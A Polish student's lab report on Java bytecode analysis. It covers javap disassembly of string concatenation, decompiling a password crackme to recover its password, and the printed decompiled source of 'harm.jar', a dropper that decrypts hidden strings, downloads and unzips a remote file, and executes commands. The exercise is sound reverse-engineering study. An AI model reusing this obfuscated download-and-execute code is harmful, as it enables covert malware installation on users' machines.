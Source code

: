 # APRO2 Lab5 Sprawozdanie

###### Tomasz Mycielski (304248)

## Zadanie 1

Na potrzeby zadania stworzyłem dwie klasy:
- `ConcatenatorPlusEquals`:
<details>
<summary>Pokaż kod</summary>

```java
package com.company.z1;

public class ConcatenatorPlusEquals {

    public static void main(String[] args) {
        String concatenation;
        concatenation = "String1" + "String2";
        System.out.println(concatenation);
    }
}
```
</details>

- `ConcatenatorStringBuilder`:
<details>
<summary>Pokaż kod</summary>

```java
package com.company.z1;

public class ConcatenatorStringBuilder {
    public static void main(String[] args) {
        StringBuilder stringBuilder;
        stringBuilder = new StringBuilder();
        stringBuilder.append("String1");
        stringBuilder.append("String2");
        String string;
        string = stringBuilder.toString();
        System.out.println(string);
    }
}
```
</details>

Wywołanie komendy `javap` na plikach `.class`, do których zostały skompilowane powyższe programy, wygenerowało następujący output:

- dla `ConcatenatorPlusEquals`:
<details>
<summary>Pokaż output</summary>

```text
Compiled from "ConcatenatorPlusEquals.java"
public class com.company.z1.ConcatenatorPlusEquals {
  public com.company.z1.ConcatenatorPlusEquals();
  public static void main(java.lang.String[]);
}
```
</details>

- dla 'ConcatenatorStringBuilder':
<details>
<summary>Pokaż output</summary>

```text
Compiled from "ConcatenatorStringBuilder.java"
public class com.company.z1.ConcatenatorStringBuilder {
  public com.company.z1.ConcatenatorStringBuilder();
  public static void main(java.lang.String[]);
}
```
</details>

Z powyższego wywnioskować można niewiele. Wiemy, że obydwa programy mają podobną strukturę — jest w nich tylko metoda `main(String[])`.

Program `javap` daje nam jednak do dyspozycji jeszcze opcję Disassemble the code, oznaczoną `-c`. Po wywołaniu komendy `javap -c` na tych samych plikach możemy dowiedzieć się o wiele więcej o programie:
- `ConcatenatorPlusEquals`
<details>
<summary>Pokaż output</summary>

```text
Compiled from "ConcatenatorPlusEquals.java"
public class com.company.z1.ConcatenatorPlusEquals {
  public com.company.z1.ConcatenatorPlusEquals();
    Code:
       0: aload_0
       1: invokespecial #1                  // Method java/lang/Object."<init>":()V
       4: return

  public static void main(java.lang.String[]);
    Code:
       0: ldc           #7                  // String String1
       2: astore_1
       3: aload_1
       4: invokedynamic #9,  0              // InvokeDynamic #0:makeConcatWithConstants:(Ljava/lang/String;)Ljava/lang/String;
       9: astore_1
      10: getstatic     #13                 // Field java/lang/System.out:Ljava/io/PrintStream;
      13: aload_1
      14: invokevirtual #19                 // Method java/io/PrintStream.println:(Ljava/lang/String;)V
      17: return
}
```
</details>

- `ConcatenatorStringBuilder`
<details>
<summary>Pokaż output</summary>

```text
Compiled from "ConcatenatorStringBuilder.java"
public class com.company.z1.ConcatenatorStringBuilder {
  public com.company.z1.ConcatenatorStringBuilder();
    Code:
       0: aload_0
       1: invokespecial #1                  // Method java/lang/Object."<init>":()V
       4: return

  public static void main(java.lang.String[]);
    Code:
       0: new           #7                  // class java/lang/StringBuilder
       3: dup
       4: invokespecial #9                  // Method java/lang/StringBuilder."<init>":()V
       7: astore_1
       8: aload_1
       9: ldc           #10                 // String String1
      11: invokevirtual #12                 // Method java/lang/StringBuilder.append:(Ljava/lang/String;)Ljava/lang/StringBuilder;
      14: pop
      15: aload_1
      16: ldc           #16                 // String String2
      18: invokevirtual #12                 // Method java/lang/StringBuilder.append:(Ljava/lang/String;)Ljava/lang/StringBuilder;
      21: pop
      22: aload_1
      23: invokevirtual #18                 // Method java/lang/StringBuilder.toString:()Ljava/lang/String;
      26: astore_2
      27: getstatic     #22                 // Field java/lang/System.out:Ljava/io/PrintStream;
      30: aload_2
      31: invokevirtual #28                 // Method java/io/PrintStream.println:(Ljava/lang/String;)V
      34: return
}
```
</details>

Otrzymaliśmy kod bajtowy Javy. Korzystając z jego dokumentacji dostępnej na [stronie](https://docs.oracle.com/javase/specs/jvms/se7/html/jvms-6.html) Oracle, możemy sporo dowiedzieć się o programie. Jednak już na pierwszy rzut oka widać, w której wersji programu wykorzystany został `StringBuilder`, a w której `+` do konkatenacji dwóch stringów. 

Moją szczególną uwagę zwrócił fakt, że w przypadku programu korzystającego ze `StringBuilder` możemy odczytać obydwa ciągi znaków, które ze sobą konkatenujemy, a w programie korzystającym z `+=` tylko drugi z nich.

Pliki `.class`, które podawałem do `javap` dostępne są w [lab5/out/production/lab5/com/company/z1/](./out/production/lab5/com/company/z1/).

## Zadanie 2

Do wykonania tego zadania wykorzystałem narzędzie [`Procyon`](https://github.com/ststeiger/procyon) na stronie [javadecompilers.com](javadecompilers.com). Po wysłaniu danego pliku na stronę dowiedziałem się, że program składa się z klas - `Coder` i `Main`:

 - `Main.class`
<details>
<summary>Pokaż kod</summary>

```java
package com.company;

import java.util.Date;
import java.time.Instant;
import java.text.SimpleDateFormat;

public class Main
{
    public static void main(final String[] array) {
        if (array.length != 1) {
            System.out.println("Wrong password!");
            return;
        }
        final String[] split = array[0].split("_");
        final int int1 = Integer.parseInt(new SimpleDateFormat("MM").format(Date.from(Instant.now())));
        if (split[0].length() == 7 && split[1].length() == 2) {
            if (split[0].equals(Coder.code("00PYe8m")) && Integer.parseInt(split[1]) == int1) {
                System.out.println("Good guess");
            }
            else {
                System.out.println("Wrong password!");
            }
        }
        else {
            System.out.println("Wrong password!");
        }
    }
}
```
</details>

- `Coder.class`
<details>
<summary>Pokaż kod</summary>

```java
package com.company;

public class Coder
{
    static String code(final String s) {
        final StringBuilder sb = new StringBuilder();
        for (int i = 0; i < s.length(); ++i) {
            sb.append((char)(s.charAt(i) + '\u0001'));
        }
        return sb.toString();
    }
}
```
</details>

Mając do dyspozycji powyższy kod, postarałem się odwzorować [program](lab5/src/com/company/z2) w swoim IDE. Po analizie kodu ustaliłem, że hasło ma strukturę `[7 znaków] podkreślnik [2 znaki]`. Siedem pierwszych znaków to output metody `Coder.code("00PYe8m")`, a dwa ostatnie znaki to numer obecnego miesiąca.

Sprawdzam [hasło](lab5/password.txt):
```text
$ java -jar ./Tomasz_Jerzy_Mycielski_task_2.jar 11QZf9n_04
Good guess
```

## Zadanie 3

Zdekompilowałem plik `harm.jar` dekompilatorem [`CFR`](https://github.com/leibnitz27/cfr).
<details>
<summary>Zdekompilowany kod</summary>

```java
/*
 * Decompiled with CFR 0.150.
 */
package com.company.z3.com.crack.it;

import java.io.BufferedInputStream;
import java.io.ByteArrayOutputStream;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.net.URL;
import java.nio.charset.StandardCharsets;
import java.nio.file.Path;
import java.nio.file.Paths;
import java.security.Key;
import java.util.zip.ZipEntry;
import java.util.zip.ZipInputStream;
import javax.crypto.Cipher;
import javax.crypto.spec.IvParameterSpec;
import javax.crypto.spec.SecretKeySpec;

public class Run {
private static String key = "Kjf456UjOP14Ywte";

    private static byte[] a(String string) {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream(string.length() / 2);
        for (int i = 0; i < string.length(); i += 2) {
            byteArrayOutputStream.write(Integer.parseInt(string.substring(i, i + 2), 16));
        }
        return byteArrayOutputStream.toByteArray();
    }

    private static String b(String string) throws Exception {
        byte[] arrby = Run.a(string);
        Cipher cipher = Cipher.getInstance("AES/CBC/NoPadding");
        SecretKeySpec secretKeySpec = new SecretKeySpec(key.getBytes(StandardCharsets.UTF_8), "AES");
        IvParameterSpec ivParameterSpec = new IvParameterSpec(key.getBytes(StandardCharsets.UTF_8));
        cipher.init(2, (Key)secretKeySpec, ivParameterSpec);
        byte[] arrby2 = cipher.doFinal(arrby);
        return new String(arrby2);
    }

    private static void c(String string) throws Exception {
        URL uRL = new URL(string);
        Path path = Paths.get(System.getProperty(Run.b("cf342300e78f3c21383678d00b71b225369f62782816ebd5986ae029b97f34f53fb78d0a05ece71c779ebbc83692cfe8919282626c7be128cfb6b8f285848ff5").trim()), new String[0]);
        Path path2 = Paths.get(path.toString(), Run.b("b92741a781f245538d5c75ab25330b9107832a09ef2c1d461a67507930557538e1fa2c3d572d2a384e4f9d399ef8c33d09467b3ab0454b41bab9350ce3774fdf").trim());
        try (BufferedInputStream bufferedInputStream = new BufferedInputStream(uRL.openStream());){
            int n;
            FileOutputStream fileOutputStream = new FileOutputStream(path2.toString());
            byte[] arrby = new byte[1024];
            while ((n = bufferedInputStream.read(arrby, 0, 1024)) != -1) {
                fileOutputStream.write(arrby, 0, n);
            }
        }
        catch (IOException iOException) {
            // empty catch block
        }
        Run.d(path2, path);
    }

    private static void d(Path path, Path path2) {
        try {
            if (!path.toFile().exists()) {
                return;
            }
            byte[] arrby = new byte[1024];
            ZipInputStream zipInputStream = new ZipInputStream(new FileInputStream(path.toString()));
            ZipEntry zipEntry = zipInputStream.getNextEntry();
            while (zipEntry != null) {
                int n;
                String string = Paths.get(path2.toString(), zipEntry.getName()).toString();
                FileOutputStream fileOutputStream = new FileOutputStream(string);
                while ((n = zipInputStream.read(arrby)) > 0) {
                    fileOutputStream.write(arrby, 0, n);
                }
                fileOutputStream.close();
                zipEntry = zipInputStream.getNextEntry();
            }
            zipInputStream.closeEntry();
            zipInputStream.close();
        }
        catch (Exception exception) {
            // empty catch block
        }
    }

    public static void main(String[] arrstring) throws Exception {
        String string = System.getProperty(Run.b("6474658359276b25720ff106097a2663f7d139752e9f95100ac045385fd51ee58f6a4a2c6d7f2701fed0ab2fff3a66bf43f78e79af22740fe718824cff7cda98").trim());
        String string2 = Run.b("054f1f395c9506dea62a842dd0a91602ef625bd2909bb87a2fbcab5a499e06013166de8c18bf9d982184785f07f59739c463c3d56327be198fcae6648f7314f4").trim();
        Run.c(Run.b("52ab37cab57dab5d50c38b06a37f12da4a093eadfd96502c3eef188a2c44e63a0cb4a60c16e3f41f0c02df264f492cf311030bd9be4a3f37db38755eef4527b9"));
        if (string.contains(string2)) {
            Runtime.getRuntime().exec(Run.b("2d830932f271350897857710196ec96453f8d261bc7f07181da0c2a10fbe2db2267c3526d61c01c1c28a004367774f64b687c76dcf6873995954a8d93f3d2f3c").trim());
        } else {
            Runtime.getRuntime().exec(Run.b("5673123e986e4c8ad4efa677a6d00b31b2007673a282e5ebc6a2738c0f603f36b372a9f85b2f598f3f76c5d43eb82e4183a123eea4031fcbb040c872e681e31f").trim());
        }
    }
}
```

</details>

Kod ten, po wprowadzeniu komentarzy wyjaśniających jego działanie, dostępny jest w katalogu [z3](lab5/src/com/company/z3/com/crack/it/).